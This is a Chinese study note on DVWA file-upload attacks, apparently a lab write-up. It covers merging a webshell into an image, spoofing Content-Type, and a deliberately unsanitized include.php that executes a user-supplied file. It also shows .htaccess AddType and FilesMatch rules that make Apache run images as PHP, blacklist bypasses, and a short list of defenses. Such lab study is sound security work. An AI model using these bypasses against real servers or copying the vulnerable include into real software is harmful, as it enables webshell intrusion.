



## dvwa学习 文件上传


### 参考资料

[文件解析漏洞总结-Apache](https://blog.csdn.net/wn314/article/details/77074477)


[DVWA-1.9全级别教程之File Upload](http://www.freebuf.com/articles/web/119467.html)

### 常见的上传漏洞分类

服务器配置不当导致文件上传

开源编辑器存在上传漏洞

本地文件上传限制可以上传被绕过

服务器端过滤不严可以被绕过
　

解析漏洞导致文件执行

文件路径截断


### 利用条件

文件上传漏洞的利用是有限制条件的，首先当然是要能够成功上传木马文件，其次上传文件必须能够被执行，最后就是上传文件的路径必须可知。

修改 Content-Type： ```Content-Type: image/png```


将图片和 webshell合并

```copy 2.jpeg/b+muma.php/a hack.jpg```


**参数/b指定以二进制格式复制、合并文件。 用于图像类/声音类文件**

**参数/a指定以ASCII格式复制、合并文件。 用于txt等文档类文件**


直接用图片链接菜刀不可连接。这里服务器将木马文件解析成了图片文件，因此向其发送post请求时，服务器只会返回这个“图片”文件，并不会执行相应命令。


这里可以借助文件包含漏洞来获取webshell权限

http://localhost:808/DVWA-master/vulnerabilities/fi/?page=http://192.168.255.151:8081/DVWA-master/hackable/uploads/hack.jpg

**用菜刀连接，发现可以查看目录。但无法dos及文件下载等操作。原因应该与dvwa有关。**

自己写一个 php include 函数 ,命名 include.php 。

	<?php
	 $file = $_GET[ 'page' ];
	 
	 echo $file;
	 
	 echo '<html><br/></html>';
	 
	 include $file;
	?>

将 一句话木马 放在 jpg中。用 include.php 包含jpg  连接菜刀，可以执行。 

将jpg 用 notepad 打开，只保留jpg前三行代码。 将 一句话木马 复制到jpg中，用include.php 包含jpg 连接菜刀，可以执行。

图片 + 一句话生成的 jpg文件，菜刀可以包含连接但 无法执行 dos ，下载等操作。原因可能是 ```<```符号在合成的过程中 变成了 ```?```, php 少了前面的 ```<```符号 无法被正确解析。

所以我本地环境未能复现出 命令行合成的图片马连菜刀。但可以手动复制 shell 追加或直接写入 jpg等格式的文件。

### 其他绕过方式

Apache的模块的配置文件中找到了php5.conf，内容如下：

	  <FilesMatch ".+\.ph(p[345]?|t|tml)$">
	      SetHandler application/x-httpd-php
	  </FilesMatch>
	
可见不仅php，就连phtml、pht、php3、php4和php5都是Apache和php认可的php程序的文件后缀


.htaccess是Apache的又一特色。一般来说，配置文件的作用范围都是全局的，但Apache提供了一种很方便的、可作用于当前目录及其子目录的配置文件——.htaccess（分布式配置文件）。

比如

本pass禁止上传.php|.php5|.php4|.php3|.php2|php1
|.html|.htm|.phtml|
.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1
|.Html|.Htm|.pHtml|
.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|
.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|
.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|
.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|
.cer|.cEr|.sWf|.swf后缀文件！

（1）找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类

（2）可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类

（3）首先上传一个.htaccess内容如下的文件:

     AddType application/x-httpd-php xxx
这样.htaccess文件所在目录及其子目录中的后缀为.xxx的文件被Apache当做php文件，然后再上传图片马，就可以解析

......


注意：要想使.htaccess文件生效，需要两个条件，

一是在Apache的配置文件中写上：

  ```AllowOverride All```

若这样写则.htaccess不会生效：

  ```AllowOverride None```

二是Apache要加载mod_Rewrite模块。加载该模块，需要在Apache的配置文件中写上：

  win:```LoadModule rewrite_module modules/mod_rewrite.so```

  linux:```LoadModule rewrite_module /usr/lib/apache2/modules/mod_rewrite.so```

若是在Ubuntu中，可能还需要执行命令：

  ```sudo a2enmod rewrite```

Apache可能有多个配置文件，后加载的配置文件会覆盖先加载的配置文件中的配置。一般来说，先加载httpd.conf，再加载conf.d/中的配置文件，最后加载sites-enabled/中的配置文件。

**.htaccess文件可以配置很多事情，如是否开启站点的图片缓存、自定义错误页面、自定义默认文档、设置WWW域名重定向、设置网页重定向、设置图片防盗链和访问权限控制。但我们这里只关心.htaccess文件的一个作用——MIME类型修改。**

**这里假定服务器已开启.htaccess**

如在.htaccess文件中写入：

方式一：
  	
	AddType application/x-httpd-php xxx

就成功地使该.htaccess文件所在目录及其子目录中的后缀为.xxx的文件被Apache当做php文件

方式二：

	  <FilesMatch "shell.jpg">
	    SetHandler application/x-httpd-php
	  </FilesMatch>
	

该语句会让Apache把shell.jpg文件解析为php文件。


****

**遇到的问题**


1.实际情况我的jpg里的代码，没有执行 phpinfo()也没有执行 <?php echo 'HELLO WORLD'; ?>   

而是下载到本地

2.
	
	  <FilesMatch "shell.jpg">
	    SetHandler application/x-httpd-php
	  </FilesMatch>
	
在我的环境上面的 第二种配置方式未生效， 只有第一种配置方式生效


3. 虽然显示 content-type 为 application/x-httpd-php，即按照 php方式解析。但浏览器访问该jpg页面直接下载 图片。用C刀连接也 出现连接失败。具体原因不得知。环境：phpstudy+apache+php5.4.45 



4.未找到 php5.conf 配置文件


**创建无前缀的.htaccess文件：**

cmd: ```type nul>.htaccess``` 输入完成无任何提示


文件包含图片马，访问url:

```http://localhost:808/include.php?page=file:///E:/software/phpstudy/WWW/4.jpg```

图片马只含有 php 一句话， 并非 图片+ webshell 合成，图片+ webshell 合成的含有 图片乱码的 jpg 在浏览器访问会报错。原因是将 图片中乱码当作php 解析。



实际测试 将一句话完整复制到jpg后面不会影响 C刀的连接和使用

**include.php 内容与前文相同**


### 防护

对上传文件进行了重命名（为md5值，导致%00截断无法绕过过滤规则）

使用白名单机制对文件类型(mine-type)和文件后缀进行限制

加入Anti-CSRF token防护CSRF攻击，

设置项目目录权限：可写目录不执行，执行目录不可写

针对图片文件使用压缩或重设图片像素大小

上传文件存放在独立服务器使用
 


### Apache文件解析漏洞总结

[文件解析漏洞总结-Apache](https://blog.csdn.net/wn314/article/details/77074477)

#### 1.多后缀名解析特性

**Apache会从后（右）往前（左），辨别后缀**，例如有一个文件名为```a.mp3.jpg.aaa```，浏览器查看 Content-Type 显示为 图片。

**因为服务器的响应HTTP头中的Content-Type字段值为image/jpeg，浏览器看到image/jpeg，便知这是图片文件**

哪些后缀Apache认识，哪些不认识？有一个名为mime.types的文件，其中记录着Apache认识的后缀。

在linux下，该文件位于/etc/mime.types，在Windows下，该文件位于Apache/conf/mime.types,暂未发现php 相关后缀配置位置


在linux下搜索所有php结果
```cat /etc/mime.types | grep php```



linux下 phpinfo.phtml 与phpinfo.php 内容一致，成功解析。

linux下 phpinfo.htm,php3,php4,php5 网页200ok,firefox浏览器 空白，未能解析，原因未知，环境 kali+php7+apache2  

linux下 phpinfo.php.a firefox浏览器 网页 空白 未能解析。

windows下 访问 phpinfo.php.a chrome浏览器 报500错误，环境 phpstudy+php5.4.45 nts + apache

windows下 访问 phpinfo.htm,php3,php4,php5 chrome浏览器 显示源代码，firefox浏览器空白，右键查看源代码可以看到未解析的服务端代码。

为何 phpinfo.php.a 没有被作为php代码执行呢?

可能的原因:

Apache看到文件phpinfo.php.a，按照多后缀名的解析规则，认为该文件是php程序文件，把该文件作为php程序文件处理，交给php解释器。  而php解释器却有着和Apache不同的后缀解析规则,只认最后一个后缀，故而认为phpinfo.php.a不是php程序文件，拒绝执行。

php可以以FASTCGI的模式工作于Apache中，此种模式下php遇到类似phpinfo.php.a这种不是php程序的文件，会触发500错误。

[php可以以模块（module）的模式](https://www.nowcoder.com/questionTerminal/75765e0012b341e8883011c83672868f)工作于Apache的领导下。这种模式下php接受到领导Apache分配的任务——phpinfo.php.a，一看，不是php程序文件，没法执行，但也没有报错，而是返回了文件内容本身。  ``````


#### 2.罕见后缀

在linux下搜索所有php结果
```cat /etc/mime.types | grep php```


#### 3. .htaccess

.htaccess是Apache的又一特色。一般来说，配置文件的作用范围都是全局的，但Apache提供了一种很方便的、可作用于当前目录及其子目录的配置文件——.htaccess（分布式配置文件）。


